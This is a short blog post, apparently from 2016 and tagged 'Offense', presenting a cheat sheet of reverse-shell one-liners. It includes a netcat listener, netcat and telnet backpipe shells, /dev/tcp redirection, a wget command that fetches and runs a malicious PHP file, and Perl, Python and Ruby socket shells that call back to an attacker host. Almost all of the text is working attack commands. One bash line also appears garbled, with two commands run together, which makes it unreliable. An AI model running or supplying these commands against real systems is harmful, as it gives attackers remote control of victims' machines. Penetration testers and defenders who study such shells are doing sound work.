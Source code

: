 ```yaml
---
layout: post
title: "Reverse Shells"
description: "quick and dirty reverse shells"
tags: ["Security", "Offense", "Reverse-Shell"]
date: 2016-12-27
---
```


Reverse shells can be used to execute commands or collect data from another computer. The concept is that the attacker opens a listening port on which the victim (through some exploit) connects to the attacker over tcp. This configuration also works vice versa which is known as a bind shell.

It's important to consider what software the victim might have on their machine to enable this connection, thus using built in tools can be a smart approach.

##### Here's how you start the listener to connect to the vicitm (using netcat):

	attacker$ nc -l -v attackerip 4444


##### Netcat

	nc <attacker_ip> <port> -e /bin/bash

##### no -e flag? use the GAPING_SECURITY_HOLE technique

	mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe

##### /dev/tcp

	/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1

##### Telnet - GAPING_SECURITY_HOLE

	mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe

##### PHP

	wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php

##### Bash

	bash -i >& /dev/tcp/10.0.0.1/8080 0>&10<&196;exec 196<>/dev/tcp/attackerip/4444;

	sh <&196 >&196 2>&196

	exec 5<>/dev/tcp/attackerip/4444

	cat <&5 | while read line; do $line 2>&5 >&5; done  # or:

	while read line 0<&5; do $line 2>&5 >&5; done

##### PERL

	perl -MIO::Socket -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr => "127.0.0.1:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

##### Python

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

##### Ruby

	ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

##### Further Reading

[http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html][1]

[https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem][2]

[1]:	http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html
[2]:	https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem
